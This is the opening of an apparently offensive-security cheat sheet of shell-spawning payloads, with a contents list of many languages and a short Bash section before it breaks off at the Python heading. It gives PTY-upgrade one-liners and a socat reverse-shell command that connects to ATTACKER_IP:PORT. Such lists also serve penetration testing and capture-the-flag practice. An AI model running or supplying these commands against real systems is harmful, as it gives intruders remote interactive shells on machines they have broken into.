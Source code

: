 # Spawning Shell Payloads - Comprehensive Cheat Sheet

This document contains payloads for spawning interactive shells across various scripting languages and environments, organized from basic to advanced techniques.

## Table of Contents
1. [Bash Shell Spawns](#bash-shell-spawns)
2. [Python Shell Spawns](#python-shell-spawns)
3. [Perl Shell Spawns](#perl-shell-spawns)
4. [PHP Shell Spawns](#php-shell-spawns)
5. [Ruby Shell Spawns](#ruby-shell-spawns)
6. [PowerShell Spawns](#powershell-spawns)
7. [Java Shell Spawns](#java-shell-spawns)
8. [Golang Shell Spawns](#golang-shell-spawns)
9. [Node.js Shell Spawns](#nodejs-shell-spawns)
10. [Lua Shell Spawns](#lua-shell-spawns)
11. [Awk Shell Spawns](#awk-shell-spawns)
12. [Telnet Shell Spawns](#telnet-shell-spawns)
13. [Socat Shell Spawns](#socat-shell-spawns)
14. [Windows CMD Shell Spawns](#windows-cmd-shell-spawns)
15. [Database Shell Spawns](#database-shell-spawns)
16. [Advanced Techniques](#advanced-techniques)

---

## Bash Shell Spawns

### Basic interactive shell
```bash
/bin/bash -i
```

### PTY spawn (better shell)
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Using script command
```bash
script -qc /bin/bash /dev/null
```

### Socat PTY spawn
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:PORT
```

---

## Python Shell Spawns
